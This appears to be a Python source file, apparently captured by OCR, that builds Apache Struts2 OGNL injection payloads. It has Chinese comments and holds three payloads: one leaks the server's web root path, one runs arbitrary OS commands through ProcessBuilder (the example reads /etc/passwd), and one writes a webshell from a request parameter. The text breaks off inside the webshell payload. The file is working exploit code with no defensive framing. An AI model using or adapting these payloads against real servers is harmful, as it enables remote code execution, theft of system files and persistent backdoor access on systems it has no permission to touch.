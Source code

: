 
# 获取网站物理路径
"""
%{
#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
#webroot=#req.getSession().getServletContext().getRealPath('/'),
#resp=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#resp.println(#webroot),
#resp.flush(),
#resp.close()
}
"""
webroot_exp = "%{"
webroot_exp += "#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),"
webroot_exp += "#webroot=#req.getSession().getServletContext().getRealPath('/'),"
webroot_exp += "#resp=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),"
webroot_exp += "#resp.println(#webroot),"
webroot_exp += "#resp.flush(),"
webroot_exp += "#resp.close()"
webroot_exp += "}"


# 执行命令
"""
%{
#ps=(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start().getInputStream(),
#buf=new char[50000],
new java.io.BufferedReader(new java.io.InputStreamReader(#ps)).read(#buf),
#resp=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#resp.println(#buf),
#resp.flush(),
#resp.close()
}
"""
execute_exp = "%%{"
execute_exp += "#ps=(new java.lang.ProcessBuilder(new java.lang.String[]{%s})).start().getInputStream(),"
execute_exp += "#buf=new char[50000],"
execute_exp += "new java.io.BufferedReader(new java.io.InputStreamReader(#ps)).read(#buf),"
execute_exp += "#resp=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),"
execute_exp += "#resp.println(#buf),"
execute_exp += "#resp.flush(),"
execute_exp += "#resp.close()"
execute_exp += "}"


# 写webshell
"""
%{
#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
#sio=new java.lang.StringBuffer(),
#sio.append(#req.getRealPath(%s)),
#response=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#response.println(#sio),
#response.close(),
#fos=new java.io.FileOutputStream(#sio),
#fos.write(#req.getParameter('%s').getBytes()),
#fos.close()}